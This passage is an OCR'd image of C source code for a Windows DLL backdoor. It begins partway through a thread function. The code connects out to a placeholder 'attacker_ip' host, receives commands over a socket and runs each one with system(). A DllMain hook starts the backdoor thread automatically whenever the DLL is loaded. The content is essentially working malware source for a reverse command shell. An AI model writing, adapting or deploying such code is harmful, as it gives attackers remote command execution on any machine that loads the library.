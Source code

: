 ```
    int iResult;
    int recvbuflen = DEFAULT_BUFLEN;

    // Initialize Winsock
    iResult = WSAStartup(MAKEWORD(2, 2), &wsaData);
    if (iResult != 0) {
        return 1;
    }

    ZeroMemory(&hints, sizeof(hints));
    hints.ai_family = AF_UNSPEC;
    hints.ai_socktype = SOCK_STREAM;
    hints.ai_protocol = IPPROTO_TCP;

    // Resolve the server address and port
    iResult = getaddrinfo("attacker_ip", DEFAULT_PORT, &hints, &result);
    if (iResult != 0) {
        WSACleanup();
        return 1;
    }

    // Attempt to connect to the first address returned by the call to getaddrinfo
    for (ptr = result; ptr != NULL; ptr = ptr->ai_next) {
        ConnectSocket = socket(ptr->ai_family, ptr->ai_socktype, ptr->ai_protocol);
        if (ConnectSocket == INVALID_SOCKET) {
            WSACleanup();
            return 1;
        }

        iResult = connect(ConnectSocket, ptr->ai_addr, (int)ptr->ai_addrlen);
        if (iResult == SOCKET_ERROR) {
            closesocket(ConnectSocket);
            ConnectSocket = INVALID_SOCKET;
            continue;
        }
        break;
    }

    freeaddrinfo(result);

    if (ConnectSocket == INVALID_SOCKET) {
        WSACleanup();
        return 1;
    }

    // Receive data from the server
    do {
        iResult = recv(ConnectSocket, recvbuf, recvbuflen, 0);
        if (iResult > 0) {
            // Execute received command (very dangerous and simplistic example)
            system(recvbuf);
        }
    } while (iResult > 0);

    closesocket(ConnectSocket);
    WSACleanup();
    return 0;
}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved) {
    if (ul_reason_for_call == DLL_PROCESS_ATTACH) {
        CreateThread(NULL, 0, BackdoorThread, NULL, 0, NULL);
    }
```